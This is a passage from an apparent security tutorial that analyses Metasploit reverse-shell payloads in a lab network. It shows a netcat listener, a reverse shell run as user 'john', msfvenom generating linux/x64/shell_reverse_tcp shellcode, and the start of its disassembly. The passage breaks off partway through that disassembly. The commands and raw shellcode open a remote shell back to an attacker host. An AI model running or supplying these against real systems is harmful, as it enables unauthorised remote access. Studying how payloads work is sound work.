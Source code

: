 Before running the payload, we should listen on the port 4444 on the attacker machine:
```
$nc -lnvp 4444
listening on [any] 4444 ...
```

We can now run the payload using the user `john`:
```
$ssh john@172.17.0.2
john@172.17.0.2's password: pass

$ ls -l
total 4
-rw-r--r-- 1 john john 194 May 12 07:23 reverse_shell
$ chmod +x reverse_shell
$ ./reverse_shell
```

We got the reverse shell:
```
$nc -lnvp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58036
whoami
john
```
### Staged payload
We will now use the corresponding staged payload `linux/x64/shell/reverse_tcp`. If we reproduce exactly the same operations as with a stageless payload, we will get a segmentation fault when we will try to send our first command through the reverse shell. To understand what is happening, let's try to decompile the payload.
#### Stageless payload assembly
To get the shell code of the payload, we can generate it using the C format:
```
$msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f c > reverse_shell.c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 338 bytes

$cat reverse_shell.c
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\xac\x11\x00\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";
```
This code can be sent to a disassembler to get the corresponding assembly. I used [Defuse online disassembler](https://defuse.ca/online-x86-assembler.htm). I got the following code:
```
0:  6a 29                   push   0x29
2:  58                      pop    rax
3:  99                      cdq
4:  6a 02                   push   0x2
6:  5f                      pop    rdi
7:  6a 01                   push   0x1
9:  5e                      pop    rsi
a:  0f 05                   syscall
c:  48 97                   xchg   rdi,rax
e:  48 b9 02 00 11 5c ac    movabs rcx,0x10011ac5c110002
15: 11 00 01
18: 51                      push   rcx
```